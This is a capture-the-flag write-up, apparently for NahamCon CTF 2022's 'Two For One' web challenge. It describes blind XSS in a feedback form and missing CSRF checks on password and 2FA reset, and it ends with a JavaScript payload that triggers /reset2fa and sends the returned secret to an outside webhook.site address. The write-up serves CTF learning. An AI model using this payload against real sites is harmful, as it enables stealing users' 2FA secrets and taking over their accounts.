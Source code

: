 # NahamCon CTF 2022 - Two For One
category: Web - Hard

## solution

at the first page there is a login and signup page

![Screenshot_2022-05-01 Fort Knox](https://user-images.githubusercontent.com/83473054/166118848-40535718-4ce9-400b-ab17-88d772683333.png)

in the signup page we must get the google auth token cuz we need it for login and other stuffs.
after login we could see that we are able to create secrets

![Screenshot_2022-05-01 Fort Knox(1)](https://user-images.githubusercontent.com/83473054/166119065-46e8ce6b-30f7-4fda-8718-813b23de13ef.png)

but the goal is not creating notes, we have to somehow read admin notes
so we will go to settings

in settings we could see Feedback part which after some fuzzing we found it's vulnerable to blind xss

![Screenshot_2022-05-01 Fort Knox(2)](https://user-images.githubusercontent.com/83473054/166119184-474ff52a-dde4-4a06-a734-c0aa0c17b862.png)

but there are two more part in settings

## reset password
![Screenshot_2022-05-01 Fort Knox(3)](https://user-images.githubusercontent.com/83473054/166119229-3f7a0284-1bba-400d-8943-519264db6876.png)
and
## reset 2FA
![Screenshot_2022-05-01 Fort Knox(4)](https://user-images.githubusercontent.com/83473054/166119240-162ad12a-7247-4df5-88a2-a59fe2be559f.png)


we found there is no csrf for reset password and reset 2FA, but reset password need to confirming 2FA. so first of all we have to somehow hijack the google authentication token.

we could reset google auth with POST request to this endpoint ```/reset2fa```

I wrote below payload to hijack the result of  ```/reset2fa``` and send it to our webhook

```js
<script>
    xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://challenge.nahamcon.com:31170/reset2fa', false);
    xhr.send();
    document.location='https://webhook.site/x4xx4-xxx-xxx-xxxx-xxxx?otp='+xhr.response;
</script>
```
